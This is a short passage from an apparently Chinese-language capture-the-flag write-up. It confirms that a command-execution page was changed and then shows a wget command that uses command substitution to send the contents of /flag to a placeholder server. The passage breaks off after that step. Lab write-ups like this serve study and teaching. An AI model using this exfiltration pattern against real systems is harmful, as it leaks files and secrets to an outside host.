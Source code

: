 打开 **执行命令** 界面可确认修改成功:

![](images/ekko_note-19.webp)

此时执行 `wget http://<SERVER_ADDR>/$(cat /flag)` 即可获得 Flag:
